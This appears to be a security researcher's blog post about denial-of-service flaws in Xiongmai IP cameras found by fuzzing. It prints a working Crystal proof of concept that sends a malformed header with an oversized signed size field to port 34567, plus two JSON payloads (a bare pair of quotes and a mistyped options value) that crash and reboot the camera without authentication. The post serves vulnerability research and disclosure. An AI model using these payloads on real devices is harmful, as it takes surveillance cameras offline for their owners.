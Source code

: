 ```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 9 - Denial of Service"
date:   2019-09-04 08:00:00 +0100
tags: hacking, ipc, dos
permalink: /xiongmai/9
---
```

During my fuzzing with Radamsa I uncovered a DoS that would take my camera down via the unprivileged user account. Lets find out exactly what caused the crash!

The first thing I did was backup the string, then I cut pieces out until the crash stopped working.

The first thing I did was cut out the "message" portion of the packet, the DoS still worked. After, I started removing bits of the header, which was also the wrong size. I also changed values in it to see what caused caused the crash and what didn't. I found that a size field over 0x80000000 would cause the crash.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\x85\x05" + "\x00\x00\x00\x80"
</code></pre>

This could mean a couple things, but most likely that someone used a signed variable for an unsigned integer, since size can never be below 0, this could cause an integer overflow error of some kind, most likely because the program is trying to read in a message size, either far beyond what was expected, or in the negative, causing a crash.

Currently, the exploit uses the magic for OPMonitor, but this vulnerability should affect any command we are allowed to access, and since the "login" command is the most unprivilieged, that should be the next target.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\xe8\x03" + "\x00\x00\x00\x80"
socket = MagicSocket.new("192.168.11.109", 34567)
#socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

This produces:

<pre><code>
SENT: "\xFF\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\xE8\u0003\u0000\u0000\u0000\x80"

Unhandled exception:  (MagicError::ReceiveEOF)
  from src/magic_fuzzer/magic_socket.cr:0:7 in 'receive_message'
  from src/sandbox.cr:69:1 in '__crystal_main'
  from /usr/share/crystal/src/crystal/main.cr:97:5 in 'main_user_code'
  from /usr/share/crystal/src/crystal/main.cr:86:7 in 'main'
  from /usr/share/crystal/src/crystal/main.cr:106:3 in 'main'
  from __libc_start_main
  from _start
  from ???
</code></pre>

The ReceiveEOF proves that the socket closed and the server went down.

The camera will go down for about 2 minutes, while still responding to pings for a short period of time while it reboots. The client cannot connect during this reboot period.

<iframe width="616" height="380" src="https://www.youtube.com/embed/SnyPJtDDMFQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

While we do have an already working DoS exploit, there is a lot to be learned in further potential fuzzing. Working with Radamsa was a snap, and helped me find two new vulnerabilities, the "Message Quotes" and "Options Wrong Type" vulnerabilities.

## Message Quotes DoS
This one takes advantage of some error made in JSON processing, when given a message that consists entirely of two quotes, the camera crashes. Not really too much to say about it. Like the size int problem, this one works on all commands.
## Options Wrong Type DoS

This takes advantage of another issue in the JSON processing the camera's server does. This one only works on specific commands; OPTalk, OPMonitor, and OPRecordSnap. When these commands are sent, the have the option of including a hash of options under the root as the same name of command.

Example:
<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor":  {
    "Action": "Claim",
    "Action1":  "Start",
    "Parameter":  {
      "Channel":  0,
      "CombinMode": "NONE",
      "StreamType": "Main",
      "TransMode":  "TCP"
    }
  },
  "SessionID":  "0x0000000007"
}
</code></pre>

Under the "OPMonitor" key, there is a hash of options. The server always expects the value under this key to always be a hash. However, weak checking, poor testing, and bad error handling allows us to crash the camera by swapping the hash with an non-nested type, like a string or a number. For example, the following string crashes the camera.

<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor": 0,
  "SessionID":  "0x0000000007"
}
</code></pre>